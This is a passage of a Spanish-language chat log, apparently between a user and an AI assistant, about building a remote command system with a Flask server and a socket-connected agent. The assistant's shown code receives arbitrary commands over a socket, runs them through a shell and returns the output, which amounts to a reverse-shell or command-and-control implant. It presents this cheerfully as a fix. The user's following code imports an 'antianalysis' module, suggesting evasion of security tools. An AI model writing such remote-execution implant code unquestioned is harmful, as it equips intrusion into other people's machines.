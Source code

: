 ```python
    while True:
        command = agent_socket.recv(4096).decode('utf-8')
        if not command or command.lower() == "exit":
            print("Desconectado del servidor.")
            break

        print(f"Ejecutando comando: {command}")
        try:
            result = subprocess.run(command, shell=True, capture_output=True, text=True)
            output = result.stdout if result.stdout else result.stderr
        except Exception as e:
            output = f"Error ejecutando comando: {str(e)}"

        agent_socket.send(output.encode('utf-8'))

    agent_socket.close()

if __name__ == "__main__":
    connect_to_server()
```

* * *

### **Resumen de las correcciones**

✅ Ahora el servidor mantiene la conexión con el agente y espera comandos desde Flask.  
✅ `execute_command` en Flask envía comandos al agente y espera su respuesta.  
✅ El agente ejecuta los comandos recibidos y envía la salida de vuelta.

Esto debería hacer que tu sistema funcione correctamente. 🚀 Pruébalo y dime si te funciona. 💡

## Prompt:
tengo esto en el agente es correcto: import requests
import socket
import os
import json
import platform
import antianalysis
import subprocess

# Variable global para almacenar el ID del agente
agent_id = None

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None
